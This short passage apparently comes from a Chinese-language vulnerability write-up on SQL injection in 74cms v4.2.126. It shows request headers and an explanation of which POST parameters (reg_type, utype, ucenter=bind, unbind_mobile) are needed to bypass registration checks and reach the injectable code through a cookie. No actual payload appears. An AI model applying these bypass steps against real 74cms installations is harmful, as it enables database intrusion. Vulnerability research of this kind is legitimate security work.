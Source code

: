     headers:
      Content-Type: application/x-www-form-urlencoded
      X-Requested-With: XMLHttpRequest

![](resource/74cmsv4.2.126-前台四处sql注入/media/rId58.png)

    这里我要大概讲一下参数的问题
    post: 
    reg_type=2            // 必须为2 为了绕过一个注册判断，为1的话，会直接创建帐户，导致无法利用漏洞
    utype=2         // 判断会员类型的也必须为2 为1会直接创建一条数据，导致无法利用漏洞      
    ucenter=bind           // 必须为bind因为要靠他，获取cookie(members_uc_info)并且合并为$data数组进行利用
      unbind_mobile=1       // 只要有此字段即可，只是单纯为了满足流程判断的

